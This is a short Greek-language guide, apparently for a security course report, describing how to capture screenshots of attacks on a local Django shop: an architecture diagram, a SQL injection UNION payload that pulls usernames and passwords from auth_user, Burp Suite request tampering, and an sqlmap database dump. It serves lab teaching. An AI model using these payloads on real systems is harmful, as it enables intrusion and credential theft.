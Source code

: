
## Λεπτομερείς Οδηγίες ανά Screenshot

### Screenshot 1: Αρχιτεκτονική Εφαρμογής

**Εργαλείο**: draw.io (https://app.diagrams.net/)

**Βήματα**:
1. Δημιουργήστε νέο διάγραμμα
2. Προσθέστε 3 layers:
   - **Presentation Layer**: Browser, HTML/CSS/JS
   - **Application Layer**: Django Server, Views, Forms
   - **Data Layer**: SQLite Database
3. Προσθέστε κόκκινα βέλη που δείχνουν τα σημεία ευπαθειών
4. Export ως PNG με όνομα: `architecture_vulnerabilities.png`

### Screenshot 2: SQL Injection - Database Extraction

**Μέθοδος A - Manual Browser**:
```
1. Ανοίξτε Chrome/Firefox
2. F12 για Developer Tools
3. Πηγαίνετε στο http://localhost:8000/catalog/
4. Στο search box: ' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--
5. Screenshot που δείχνει:
   - URL με το payload
   - Results με usernames/passwords
   - Developer console (προαιρετικά)
```

**Μέθοδος B - Burp Suite**:
```
1. Configure browser proxy: 127.0.0.1:8080
2. Burp Suite > Proxy > Intercept ON
3. Browse to /catalog/?q=test
4. Intercept request
5. Modify q parameter
6. Forward και screenshot του response
```

### Screenshot 3: SQLMap Automated Attack

```bash
# Terminal commands
sqlmap -u "http://localhost:8000/catalog/?q=test" \
       --batch \
       --dump \
       --threads=10

# Screenshot που περιλαμβάνει:
# - Identified injection point
# - Database fingerprinting
# - Dumped tables (auth_user, eshop_product, etc.)
```
